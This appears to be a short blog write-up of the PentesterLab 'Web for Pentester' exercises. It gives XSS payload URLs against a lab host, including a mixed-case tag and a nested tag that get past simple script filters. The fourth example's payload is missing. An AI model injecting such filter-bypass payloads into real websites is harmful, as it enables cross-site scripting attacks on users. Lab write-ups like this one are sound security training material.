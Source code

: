 ```yaml
---
layout: post
title: "Pentesterlab - Web for pentester"
date: 2020-10-07 15:02:38 +0700
comments: true
categories: [web, lab, pentest] 
---
```


###Example 1
{% codeblock %}
http://vulnerable//xss/example1.php?name=hacker
http://vulnerable//xss/example1.php?name=<script>alert(1)</script>
{% endcodeblock %}

###Example 2
{% codeblock %}
http://vulnerable//xss/example2.php?name=hacker
http://vulnerable//xss/example2.php?name=<Script>alert(1)</Script>
{% endcodeblock %}

###Example 3
{% codeblock %}
http://vulnerable//xss/example3.php?name=hacker
http://vulnerable//xss/example3.php?name=<scr<script>ipt>alert(1)</sc</script>ript>
{% endcodeblock %}

###Example 4
{% codeblock %}
http://vulnerable//xss/example4.php?name=hacker
http://vulnerable//xss/example4.php?name=
{% endcodeblock %}